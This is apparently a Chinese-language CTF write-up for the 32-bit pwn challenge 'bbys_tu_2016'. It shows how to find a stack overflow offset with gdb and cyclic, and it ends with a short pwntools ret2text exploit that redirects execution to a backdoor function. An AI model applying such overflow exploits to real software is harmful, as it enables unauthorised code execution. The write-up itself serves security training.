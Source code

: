 ```yaml
---
title: 'bbys_tu_2016'
date: 2024-01-08 13:00:00 +0800
categories: [32bit,ret2text,cyclic]
tags: [ctf,pwn]
---
```


![image-20240108202313442](../assets/img/old_imgs/image-20240108202313442.png)

![image-20240108202321247](../assets/img/old_imgs/image-20240108202321247.png)

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  ![image-20240108202713661](../assets/img/old_imgs/image-20240108202713661.png)

  ![image-20240108202748090](../assets/img/old_imgs/image-20240108202748090.png)

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](../assets/img/old_imgs/image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

